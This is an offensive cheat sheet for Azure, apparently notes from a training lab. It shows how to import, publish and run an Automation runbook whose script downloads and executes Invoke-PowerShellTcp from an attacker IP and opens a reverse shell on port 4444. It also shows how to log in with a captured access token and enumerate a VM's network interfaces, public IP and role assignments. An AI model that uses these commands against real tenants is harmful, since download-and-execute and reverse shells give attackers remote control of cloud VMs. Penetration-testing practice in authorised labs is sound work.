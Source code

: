 #### Import Powershell runbook
```
Import-AzAutomationRunbook -Name student38 -Path <PATH TO .ps1 FILE> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Type PowerShell -Force -Verbose
```

#### Contents off studentx.ps1 for reverse shell
```
IEX (New-Object Net.Webclient).downloadstring("http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1")

reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4444
```

#### Publish the automation runbook to the vm
```
Publish-AzAutomationRunbook -RunbookName <NAME FOR RUNBOOK> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

#### Start the runbook
```
Start-AzAutomationRunbook -RunbookName <NAME OF RUNBOOK> -RunOn <WORK GROUP> -AutomationAccountName <NAME> -ResourceGroupName <NAME> -Verbose
```

## Command execution on a VM
- Vm access can be found after getting a new user or tokens and seeing that it has access to a vm

#### Connect with Az Powershell
```
$accesstoken = ''
Connect-AzAccount -AccessToken $accesstoken -AccountId <CLIENT ID OR EMAIL>
```

#### Get more information about the VM (networkprofile)
```
Get-AzVM -Name <VM NAME> -ResourceGroupName <RESOURCE GROUP NAME> | select -ExpandProperty NetworkProfile
```

#### Get the network interface
```
Get-AzNetworkInterface -Name <NETWORKINTERFACE>
```

#### Query ID of public ip adress to get the public ip
```
Get-AzPublicIpAddress -Name <ID OF PUBLIC IP ADRESSES IN IPCONFIGURATION>
```

#### Check role assignments on the VM
```
Get-AzRoleAssignment -Scope <RESOURCE ID>
```
